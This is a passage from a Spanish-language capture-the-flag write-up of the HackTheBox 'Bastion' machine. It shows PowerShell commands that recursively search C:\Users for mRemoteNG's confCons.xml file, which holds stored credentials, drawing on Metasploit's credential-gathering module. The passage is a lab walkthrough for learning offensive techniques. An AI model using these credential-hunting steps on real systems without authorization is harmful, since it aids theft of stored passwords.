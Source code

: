 Investigando **donde** las guarda, encontramos el módulo de **metasploit** al que se hace referencia y dentro el archivo con el que juega para extraer las credenciales:

* [metasploit-framework/mremote.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/mremote.rb).

![186google_mremoteNG_rb](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastion/186google_mremoteNG_rb.png)

Tenemos dos rutas para probar y buscar el archivo llamado `confCons.xml` o hacer una [búsqueda recursiva](https://stackoverflow.com/questions/8677628/recursive-file-search-using-powershell) sobre todo el directorio `C:\Users` y ver si encuentra el objeto, hagamos esa opción:

```powershell
PS C:\Program Files (x86)> Get-Childitem -Path C:\Users\ -Filter confCons.xml -recurse -ErrorAction SilentlyContinue -Force  

    Directory: C:\Users\L4mpje\AppData\Roaming\mRemoteNG

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        22-2-2019     14:03           6316 confCons.xml

PS C:\Program Files (x86)>
```

Le indicamos que busque en el directorio `C:\Users` y que filtre por un archivo llamado `confCons.xml`, que lo haga recursivamente (en todos los directorios) y fuerce a buscar archivos ocultos yyyy que si encuentra algún error lo salte y siga buscando.

Y lo encontramos 🔥 lo tenemos en la ruta:

```powershell
C:\Users\L4mpje\AppData\Roaming\mRemoteNG
```

Veamos si es cierto 😬

```powershell
PS C:\Program Files (x86)> ls C:\Users\L4mpje\AppData\Roaming\mRemoteNG

    Directory: C:\Users\L4mpje\AppData\Roaming\mRemoteNG

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
...
-a----        22-2-2019     14:03           6316 confCons.xml
...

PS C:\Program Files (x86)>
```

